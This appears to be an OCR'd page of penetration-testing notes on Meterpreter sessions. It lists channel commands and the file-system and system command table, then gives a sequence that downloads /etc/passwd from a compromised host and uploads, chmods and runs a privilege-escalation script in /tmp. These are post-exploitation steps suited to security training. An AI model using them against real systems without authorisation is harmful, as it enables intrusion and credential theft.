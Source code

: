 List and interact with and kill channels

* -l list
* -i index interact with session
* -k index kill session

```shell
meterpreter >
channel -l
channel -i 1
channel -k 1
```

File System Commands download, upload and System Commands executions

```shell
meterpreter > help

  Stdapi: File system Command

  Command       Description
  -------       -----------
  cat           Read the contents of a file to the screen
  ...
  chmod         Change the permissions of a file
  download      Download a file or directory
  edit          Edit a file
  lcat          Read the contents of a local file to the screen
  lcd           Change local working directory
  ls            List files
  rm            Delete the specified file
  rmdir         Remove directory
  search        Search for files
  upload        Upload a file or directory

  Stdapi: System Commands
  =======================

  Command                   Description
  -------                   -----------
  execute                   Execute a command
  getenv                    Get one or more environment variable values
  getpid                    Get the current process identifier
  getuid                    Get the user that the server is running as
  kill                      Terminate a process
  pgrep                     Filter processes by name
  pkill                     Terminate processes by name
  ps                        List running processes
  shell                     Drop into a system command shell
  sysinfo                   Gets information about the remote system, such as OS


meterpreter >  
lcd /home/kali/Downloads
search -f passwd
download /etc/passwd
lcat /home/kali/Downloads/passwd
upload /usr/bin/unix-privesc-check /tmp/
ls /tmp
chmod 777 /tmp/unix-privesc-check
execute /tmp/unix-privesc-check
```
